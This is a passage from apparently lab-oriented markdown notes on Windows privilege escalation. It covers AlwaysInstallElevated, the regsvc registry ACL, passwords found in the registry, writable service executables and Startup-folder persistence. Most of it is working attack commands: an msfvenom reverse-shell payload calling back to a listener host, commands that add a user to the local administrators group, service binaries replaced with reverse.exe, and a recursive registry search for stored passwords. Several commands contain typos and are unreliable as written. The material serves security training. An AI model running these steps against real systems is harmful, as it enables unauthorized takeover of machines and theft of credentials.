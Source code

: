 	8. Run `net local group administrator`
4. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi` and transfer this file to windows and run it while we listen with metasploit.
5. If we already have meterpreter shell we can use background the session and use the exploit with `use exploit/windows/local/always_install_elevated`


### 15.3 regsvc ACL (registry service)

1. `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl` if we have full control of the registry then we can create C file to run a file for example `cmd.exe /k net localgroup administrators user /add`
![lab](WP/009.PNG)
2. `python -m pyftpdlib -p 21 --write` for starting ftp server
3. Copy "windows_service.c" to kali.
4. edit whoami with `cmd.exe /k net localgroup administrators user /add`
5. Compile the C file to x,exe.
6. Copy the file temp folder in windows.
7. In cmd `reg add HKLM\SYSTEM\CurrentControlSet\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
8. `sc start refsvc`
9. `net localgroup administrators` to confirm.

### 15.4 Password in Registry
`reg query HKLM /f password /t REG_SZ /s`  if we find any password we can login using `winexe -U 'admin%password' //MACHINE_IP cmd.exe`

## 16. Executable File running as a Service <a name="Executable_File_running_as_a_Service"></a>
1.  `powershell -ep bypass`
2. `. .\PowerUp.ps1`
3. `Invoke-AllChecks` it will look for different checks.
4. Or we can do command 
	1.	`sc qc filepermsvc` query "filepermsvc"
	2.	`C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"` but here we need to know the location of the .exe file.
5.	PowerUp will show this more detailed.
6.	`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
7.	`net start filepermsvc`

## 17. Startup Application <a name="Startup_Application"></a>
1. `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"` So if we get "BUILTIN\Users:(F)" That means we have full access.
2. Create a payload and drop the payload in "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" and start a listner in Kali.
3. When administrator login we have  a shell.
